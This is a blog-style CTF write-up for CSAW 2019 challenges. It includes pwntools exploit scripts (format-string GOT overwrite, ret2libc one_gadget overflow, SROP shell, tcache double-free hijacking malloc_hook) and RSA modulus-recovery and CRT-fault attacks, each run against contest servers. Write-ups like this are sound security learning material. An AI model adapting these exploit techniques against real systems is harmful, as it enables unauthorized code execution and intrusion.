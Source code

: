 ```yaml
---
layout: post
title:  "CSAWCTF2019-Writeup"
date:   2019-9-16
desc: ""
keywords: ""
categories: [Ctf]
tags: [CTF]
icon: icon-html
---
```


# CSAWCTF2019-Writeup

* ### beleaf

  ```python
  fuck = [1,9,17,39,2,0,18,3,8,18,9,18,17,1,3,19,4,3,5,21,46,10,3,10,18,3,1,46,22,46,10,18,6]
  dic = {
      0: 'w', 1: 'f', 2:'{', 3:'_', 4:'n', 5:'y', 6:'}', 8:'b',
      9: 'l', 10:'r', 17: 'a', 18: 'e', 19: 'i', 
      21: 'o', 22: 't', 39: 'g', 
      46: 'u'
  }
  flag = ''
  
  for i in fuck:
  	flag += dic.get(i)
  print(flag)
  ```

* ### GOT Milk?

  ```
  from pwn import *
  r = remote('pwn.chal.csaw.io',1004)
  #r = process('./gotmilk')
  elf = ELF('./gotmilk')
  lose_got = elf.got['lose']
  #test = 'aaaa%7$x'
  #win_offset = 0x1189
  payload = p32(lose_got)+'%133c%7$hhn'
  r.sendline(payload)
  r.interactive()
  ```

* ### baby_boi

  ```python
  from pwn import *
  r = remote('pwn.chal.csaw.io',1005)
  libc = ELF('./libc-2.27.so')
  r.recvuntil('Here I am: 0x')
  printf = r.recvuntil('\n',drop = True)
  printf = int(printf,16)
  libc_base = printf - libc.symbols['printf']
  one = libc_base + 0x4f322 
  r.sendline('a'*40+p64(one))
  r.interactive()
  ```

* ### small_boi

  SROP

  ```
  from pwn import *
  context.arch = 'amd64'
  r = remote('pwn.chal.csaw.io', 1002)
  binsh = 0x4001ca
  sigreturn = 0x400180
  syscall = 0x400185
  fuck = SigreturnFrame(kernel='amd64')
  fuck.rax = 59
  fuck.rdi = binsh
  fuck.rsi = 0
  fuck.rdx = 0
  fuck.rip = syscall
  payload = 'a'*0x28 + p64(sigreturn) + str(fuck)
  r.sendline(payload)
  r.interactive()
  ```

  

* ### Popping Caps

  只能操作7次，有double free

  操作7次后执行bye，里面有个malloc(0x38)，暗示改malloc_hook

  read从buf取指针，只能写刚malloc的chunk

  free时index没有检查，可以在堆上任意free

  先free一个大chunk，再free这个大chunk中的一个小chunk

  然后malloc，read写入malloc_hook，下一次malloc到malloc_hook，再写one_gadget

  ```python
  from pwn import *
  #r = remote('pwn.chal.csaw.io',1001)
  r = process('./popping_caps')
  elf = ELF('./popping_caps')
  libc = ELF('./libc.so.6')
  def malloc(size):
  	r.recvuntil('Your choice:')
  	r.sendline('1')
  	r.recvuntil('How many:')
  	r.sendline(str(size))
  
  def free(index):
  	r.recvuntil('Your choice:')
  	r.sendline('2')
  	r.recvuntil('Whats in a free:')
  	r.sendline(str(index))
  
  def write(txt):
  	r.recvuntil('Your choice:')
  	r.sendline('3')
  	r.recvuntil('Read me in:')
  	r.send(txt)
  
  r.recvuntil('Here is system 0x')
  system = int(r.recvuntil('\n',drop =True),16)
  libc_base = system - libc.symbols['system']
  log.info('libc_base:'+hex(libc_base))
  malloc_hook = libc_base+libc.symbols['__malloc_hook']
  log.info('malloc_hook:'+hex(malloc_hook))
  one = libc_base+0x10a38c
  log.info('one:'+hex(one))
  
  malloc(0x3a8)
  free(0)
  free(-0x210)
  malloc(0xf8)
  write(p64(malloc_hook))
  malloc(0x10)
  write(p64(one))
  r.interactive()
  ```

  

* ### SuperCurve

  ```python
  a = 1
  b = -1
  p = 14753
  E = EllipticCurve(Zmod(p), [a, b])
  G = E(1, 1)
  P = E(x, y)
  d = discrete_log(P, G, operation="+")
  print d
  ```

  

* ### Fault Box

  ```
  ====================================
              fault box
  ====================================
  1. print encrypted flag
  2. print encrypted fake flag
  3. print encrypted fake flag (TEST)
  4. encrypt
  ====================================
  ```

  e=65537，没有给出n

  选择4加密

  $c_2 ≡  2^e\ mod\ n$

  $c_4 ≡  4^e\ mod\ n$

  $c_8 ≡  8^e\ mod\ n$

  

  $c_2^2 ≡  c_4\ mod\ n$

  $c_2^3 ≡  c_8\ mod\ n$

  

  $c_2^2 - c_4=  kn$

  $c_2^3 - c_8=  tn$

  $n = gcd(c_2^3 - c_8,c_2^2 - c_4)$

  可以得到n

  ```python
      # ===== FUNCTIONS FOR PERSONAL TESTS, DON'T USE THEM =====
      def TEST_CRT_encrypt(self, p, fun=0):
          ep = inverse(self.d, self.p-1)
          eq = inverse(self.d, self.q-1)
          qinv = inverse(self.q, self.p)
          c1 = pow(p, ep, self.p)
          c2 = pow(p, eq, self.q) ^ fun
          h = (qinv * (c1 - c2)) % self.p
          c = c2 + h*self.q
          return c
  ```

  ep = eq = e

  正确使用CRT加密

  ![1](C:\Users\wdbbw\Desktop\1.png)

  题目中的TEST_CRT_encrypt中c2与fun异或

  ![2](C:\Users\wdbbw\Desktop\2.png)

  所以$p=gcd(c-m^e,n)$

  即$p=gcd(c_{fake}-c_{real},n)$

  然后解密flag

  
